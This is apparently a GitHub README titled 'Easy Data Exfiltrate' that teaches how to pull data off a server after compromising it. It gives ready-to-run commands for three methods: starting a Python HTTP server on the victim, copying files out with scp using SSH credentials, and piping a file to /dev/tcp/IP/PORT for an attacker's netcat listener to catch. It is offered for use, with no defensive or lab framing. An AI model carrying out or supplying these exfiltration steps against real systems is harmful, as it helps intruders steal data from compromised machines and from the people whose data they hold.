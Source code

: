 # Easy Data Exfiltrate

This repository contains the techniques for data exfiltration after compromising a server. 

## Using Python Server
The easiest method will be to start a Python HTTP Server on the target server, and downloading
the required data in personal system through web browser. 

In Python 3.x the following command can be used to start a python server:

```bash
python3 -m http.server 8000
```

In Python 2.x the following command can be used to start a python server. 

```bash
python -m SimpleHTTPServer 8000
```

But mostly, you will not find python installed on the compromised system, so you can try the next technique. 

## Through SSH

If the SSH port is open and you have the SSH credentials, then the data can be transferred through ssh easily using the technique given below:

Run This command on your own system

```bash
scp user@ServerIP:/home/location/of/the/data.zip Location/on/MySystem.zip
```
> [!NOTE]
> This will ask for the SSH Password if you are not in the authorized_keys.


The above command will simply copy the file/data from remote server just like the `cp` command copies files in your own system. 


### Through TCP connection


```bash
cat file.zip > /dev/tcp/IP/PORT
```

This will send the contents of a file file.zip over a TCP connection to a remote host IP on a specific PORT. We can recieve the file with netcat with the following command. 

```bash
nc -lvnp 9001 > file.zip
```





